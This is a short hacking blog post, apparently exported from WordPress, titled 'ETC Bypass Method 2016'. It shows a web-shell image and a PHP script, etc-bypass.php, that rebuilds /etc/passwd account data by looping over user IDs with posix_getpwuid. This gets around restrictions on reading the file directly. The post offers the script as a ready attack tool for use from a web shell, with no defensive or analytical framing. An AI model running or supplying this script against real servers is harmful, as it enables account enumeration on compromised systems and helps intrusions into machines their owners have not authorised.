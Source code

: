```yaml
---
layout: post
title: ETC Bypass Method 2016
date: 2023-08-26 22:50
tags: [Hacking]
author: theguler
comments: true
categories: [Hacking - Security]
---
```

<!-- wp:image {"id":8236,"width":"404px","height":"auto","sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large is-resized"><img src="https://theguler.wordpress.com/wp-content/uploads/2023/08/web-shell.png?w=1024" alt="" class="wp-image-8236" style="width:504px;height:auto" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p><strong>etc-bypass.php</strong></p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">&lt;?php for($uid=0;$uid&lt;2000;$uid++){ //cat /etc/passwd $nothing = posix_getpwuid($uid); if (!empty($nothing)) { while (list ($key, $val) = each($nothing)){ print "$val:"; } print "&lt;br /&gt;"; } } ?&gt;</pre>
<!-- /wp:preformatted -->

